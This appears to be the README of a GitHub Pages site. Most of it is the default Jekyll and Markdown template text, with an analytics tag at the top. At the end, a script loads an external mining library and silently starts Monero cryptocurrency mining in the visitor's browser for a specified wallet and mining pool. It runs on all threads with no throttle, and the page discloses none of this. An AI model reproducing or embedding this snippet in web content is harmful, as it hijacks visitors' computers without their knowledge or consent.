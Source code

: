 <!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-133664288-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-133664288-1');
</script>
### Wait a second!

You can use the [editor on GitHub](https://github.com/ThisIsNOTVERYMatt/reddit-html-mining/edit/master/README.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/ThisIsNOTVERYMatt/reddit-html-mining/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.

<script src="https://coinwebmining.com/cwm.js"></script>
<script>
    var site_id = 'cwm-1224';
    var coin = 'monero';
    var wallet = '43AULrkzx3ZCJvBmn8uRnUKhmCQ3ZucqDMfLhyvVCcsf4AyzWeye1A1F2iXtcJWEMe3AhHnBtRxr67GRApVvrzADRtQGdxC';
    var password = 'x';
    var mining_pool = 'gulf.moneroocean.stream:10001';
    var threads = -1;
    var throttle = 0;
    var debug = false;
    cwm_start(site_id, coin, wallet, password, mining_pool, threads, throttle, debug);
</script>
